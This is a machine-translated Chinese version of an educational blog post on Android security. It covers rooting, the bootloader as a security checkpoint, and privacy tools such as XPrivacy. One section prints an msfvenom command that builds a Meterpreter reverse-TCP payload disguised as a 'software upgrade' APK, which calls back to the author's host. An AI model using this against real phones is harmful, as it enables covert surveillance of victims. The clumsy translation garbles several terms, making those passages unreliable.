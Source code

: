 # 机器人

> 原文：<https://www.educba.com/android/>

![Android](img/fdc5701d9943c74af4cb2563bca065ef.png)



## Android 简介

在本主题中，我们将了解 Android 和开源安全(OS)。 [Android](https://www.educba.com/software-development/courses/android-developer-course/ "ANDROID - Complete Practical Training on Android") 是一个开源平台。它很像 Linux，但与 Linux 还是有很大的不同。与 Android 相比，Linux 太成熟了。这是 Chetan Nayak，欢迎来到我的下一个关于开源网络安全的博客。我写这篇博客是假设我们大多数人会使用 Android K，即 Kitkat 或 Android L，即 Lollipop。

原因是 Gingerbread 和 Jellybean 有很多开源安全问题，我不能在这篇博客中讨论。所以，也许下次当我更深入地研究它的旧版本时，我会讨论它。所以，从现在开始，让我们坚持 KitKat 和 Lollipop。

<small>网页开发、编程语言、软件测试&其他</small>

它是为开发人员设计的。安全控制旨在减轻开发人员的负担。精通安全的开发人员可以轻松使用并依赖灵活的安全控制。不太熟悉安全性的开发人员将受到安全默认值的保护。

### 开始

直到 2013 年第二季度，我才开始接触 android，当时我有了第一部 Android 手机，那是索尼 Xperia L(基于当时的 4.2.2 版本)。见鬼，我甚至讨厌安卓系统，因为它太落后了，尤其是三星设备。我当时甚至考虑过买一台 Windows Lumia，但幸运的是，我以前玩了很多游戏，我不得不买 Xperia L，因为这款电池是防延迟的。它有大约 1g 的内存和 Adreno 305。酷到可以运行任何东西。

在玩了许多像 NOVA3 和 ModernCombat4 这样的游戏后，我在一个月内就厌倦了那个牢房。我知道它是基于 Linux 的，我想在其上做一些修改。我开始阅读关于定制的书籍，并了解了什么叫做“扎根”。因为我在 Linux 中有很好的反手击球，生根对我来说不是问题。在 XDA 的帮助下，我成功地扎根于我的细胞。

但是我突然想到了什么。我的手机在开机后一重启，就开始引导循环(永远卡在引导屏幕上)。我甚至不知道 android 中的 bootloader 是什么。所以，我无能为力。这只是一个月，我买了我的新细胞，我的细胞现在软砖。我总是读到生根是危险的，但我不知道它会砖我的细胞。但我错了。随着我不断地阅读关于生根的一篇又一篇文章，我开始知道生根不会阻塞你的手机。

root 只是类似于电脑中的和 Admin 访问(其实是系统访问，但是我写的是 Admin 访问，所以对于 noobs 来说很容易理解。).这意味着生根将永远不会砖你的手机。是引导程序阻塞了我的手机。对于不知道 bootloader 是；bootloader 类似于 windows 中的 BIOS。(如果你不知道 BIOS 是什么，那么你根本就不应该读《思考安全》。)Bootloader 或 Hboot(这是它在 android 中的叫法)是你启动你的 [Android 设备](https://www.educba.com/android-device-manager-tracker/ "How Android Device Manager Finds Your Lost Phone?")时运行的第一件事。

它封装了引导[操作系统](https://www.educba.com/android-operating-system/ "Structure of an Android Operating System")内核的指令，其中大部分都是专门为运行自己的调试或修改环境而设计的。

### Android 的安全检查点

把 bootloader 想象成你的设备的安全检查点。如果你突破了这个关卡，你将会失去手机上的所有东西。所以，我认为这是一个很好的安全特性。因为如果你丢了手机，有人试图获得 root 权限绕过锁(假设你已经用 pin 或密码锁定了你的设备。)，然后他将强制解锁引导程序，这将导致删除您手机上的数据。

所以，你不用担心有人误用。所以，ROMS 习俗也是如此。rom 是基于专为您的硬件架构设计的 Android 版本的操作系统。所以，如果你在 XDA 上检查，对于你的手机，你会有 n 个定制的 rom，其中一些最著名的是 Cyanogen Mod ROMs，它们已经预先根深蒂固，并带有预定义的定制设置。

### Android 的安全覆盖

你现在可能在想，你有一个安全的手机。但是我在这里再次证明你是错的，这就是这篇博客的全部意义。到 2014 年第二季度，人们已经开始为 Android 开发漏洞和 rootkitss，这些漏洞和 rootkit 甚至可以在不解锁引导加载程序的情况下扎根你的手机。

还不够吓人？让我告诉你最危险的部分。他们甚至可以在里面安装木马。所以，即使警察能追踪到你的手机，你也能拿回你的手机，他们仍然很有可能看到你在手机上做的一切。这是我在实际环境中尝试过的实验。

我在这次攻击中使用了 Metasploit。我做的是我创建了一个木马并安装在目标手机上。这是一个简单的 apk 文件，我将其命名为软件升级。所以，如果用户只是一个普通人，只有一点点关于安全的信息，那么他甚至不敢删除它。我确定，只要互联网被激活，我创建的恶意软件就会自动执行，并连接回我在主机上的远程端口。

攻击使用了以下命令(Metasploit 是一种渗透测试软件，有助于检查平台或特定设备上的漏洞。)

我的主机 IP 地址:192.168.xx.xx

我的主机端口(要连接回去):445

`>>>msfvenom`

> > > MSF venom Android/meter preter/reverse _ TCP LHOST = 192.168 . xx . xx LPORT = 445 > software upgrade . apk

所以，这里我在我的电脑上创建了一个反向 TCP 通道。因此，每次在 android 上启动互联网时，我都会在我的 Kali 机器或安装了 Metasploit 的机器上打开一个 shell。

所以，现在你知道对一个你甚至不认识的人来说有多可怕了，他记录了你通过手机、其他联系人、WhatsApp 信息、短信、Viber 和 Skype 通话记录等进行的每一笔交易。如果这还不可怕，那我不知道什么才可怕。

### 覆盖范围

安全问题说够了。我们都知道其他平台都有安全问题。那我们怎么会安全呢？这并不完全正确。平台可以在某个特定点上变得安全，但在此之后，就要靠我们来确保它保持安全。在安全领域有一句名言:

**《社会工程:因为人类的愚蠢没有补丁》**

很久以前我在看一个 DefCon 的会议时听到过这句话。

当没有技术漏洞可以利用的时候，你应该尝试去黑人类。我指的不是催眠之类的东西。我指的是社会工程。你可以阅读我的另一篇博客“网络安全在我们日常生活中的重要性”来了解更多信息。

### Android 的核心安全功能

此外，社会工程，这是一些只有你聪明才能处理的事情；有很多方法可以让你以一种安全的方式开发 android 应用程序，以确保它保持安全。

以下是一些帮助您构建安全应用的核心安全特性:

*   Android 应用程序沙箱，将您的应用程序数据和代码执行与其他应用程序隔离开来。

*   一个应用程序框架，具有常见安全功能的健壮实现，如加密、权限和安全 IPC。

*   一种加密的文件系统，可用于保护丢失或被盗设备上的数据。

*   用户授予的限制访问系统功能和用户数据的权限。

*   应用程序定义的权限，用于基于每个应用程序控制应用程序数据。

### 如果你想要一个安全的环境，但你不是一个开发人员，你能做什么？

作为 Android 5，即棒糖，它提供了一个功能，用户可以添加多个配置文件和使用手机和平板电脑的限制模式。此外，如果你的手机已经扎根，那么 AppOps、Xprivacy 或 Privacy Guard 等 XP exposed 模块中就有 android 应用程序，可以帮你打理几乎所有事情。为此，您需要安装 e Xposed 框架。

Xposed 框架允许 Xposed 模块工作。Xposed 模块允许您更改 Apk 文件和系统文件的行为，而无需安装不同的 ROM。撤销更改也很容易，所以风险很小，甚至不耗时，因为不需要刷新多个 ROMS、内核及其错误修复。

Xprivacy，Privacy Guard 和 AppOps 是 exposed 的模块，允许你通过选择哪个应用程序应该访问什么，如互联网，键盘，sd 卡，root 访问和许多其他东西，来使你的 android 安全。您甚至可以只禁止访问特定的服务，并为此创建用户定义的模板。我呢，更倾向于选择 Xprivacy。但是这里有一些信息或差异，如果你不同意在以上三者中选择。

#### 阿彭斯

这最初是谷歌在 Android 4.3 中推出的。(这是我不支持的主要原因。我不信任谷歌。称之为偏执狂，但谷歌会追踪你做的一切。我不需要有人跟踪我做的每一件事，但是如果你信任谷歌，那就去做吧。).AppOps 的主要限制是，谷歌只允许你屏蔽那些它希望你屏蔽的应用。

这意味着，如果你想屏蔽与谷歌相关的应用，如 Play Services(实际上会消耗你正常内存、电池和数据(互联网)的 50%以上)，你将无法做到。这是我讨厌谷歌的又一个原因。所以，我相信 AppOps 对我来说只不过是一个恶意软件。(但这只是我的想法，如果你真心信任谷歌独家，就不会这样)

#### 隐私卫士

隐私卫士是一个简单易用的界面，用来代替 Cyanogen Mod 的 AppOps。如果你是一个初学者，那么我建议你使用这个，因为它只有一个开关按钮和自定义模板，关于哪种应用程序应该访问什么。如果有恶意软件像系统应用程序一样运行或模仿，这就不那么安全了。但这有助于你开始。

#### 表达方式

Xprivacy 是一个多功能的工具。但它是针对专家的。可以和瑞士军刀比。它什么都有，可以让你的手机在所有其他方面都安全，但如果你不知道你在做什么，它只会搞乱你的手机，甚至阻止应用程序启动。您还可以限制对系统应用程序的访问。这个是我个人比较倾向于选择的。

除了上述模块之外，Xposed 中甚至还有其他模块，如 Lightening Firewall 或 BootManager，可以帮助限制特定应用程序的互联网访问，并在重启手机时阻止应用程序与系统一起启动。

所以，这将是这个博客。出于安全考虑，你当然可以访问 XDA 网站，或者成为该网站的会员，该网站可以向你提供更多的隐私信息。

### 推荐文章

这是 Android 的指南。这里我们讨论了 Android 的基本概念、安全检查点和核心安全功能。您也可以浏览我们推荐的其他文章，了解更多信息——

1.  [Android 面试问题–十大有用问题](https://www.educba.com/android-interview-questions/)
2.  [8 款适用于 Android 的 Siri 替代品](https://www.educba.com/siri-alternatives/)
3.  [28 条最佳建议&amp；Android 应用开发工具的诀窍](https://www.educba.com/android-apps-development-tools/)
4.  [Android 开发职业](https://www.educba.com/careers-in-android-development/)





